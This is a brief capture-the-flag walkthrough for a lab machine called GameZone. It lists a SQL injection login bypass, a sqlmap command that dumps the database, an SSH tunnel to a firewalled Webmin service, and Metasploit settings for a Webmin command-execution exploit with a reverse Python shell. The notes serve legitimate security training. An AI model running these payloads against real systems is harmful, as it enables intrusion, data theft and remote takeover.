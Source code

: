 ## GAMEZONE
* SQL Injection
`' or 1=1 -- -`

* SQLMAP - https://sqlmap.org/ 
- aa stores post request to portal.php from burpsuite
`sqlmap -r ~/Downloads/aa --dbms=mysql --dump`

* If we run `ss -tulpn` it will tell us what socket connections are running
```
agent47@gamezone:~$ ss -tlnp
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN     0      80     127.0.0.1:3306                       *:*                  
LISTEN     0      128            *:10000                      *:*                  
LISTEN     0      128            *:22                         *:*                  
LISTEN     0      128           :::80                        :::*                  
LISTEN     0      128           :::22                        :::* 
```
service running on 10000 firewalled
`ssh -L 10000:localhost:10000 user@ip` to forward port
- webmin 1.580 running

* exploit
```
use unix/webapp/webmin_show_cgi_exec
set ssl false
set payload payload/cmd/unix/reverse_python
```
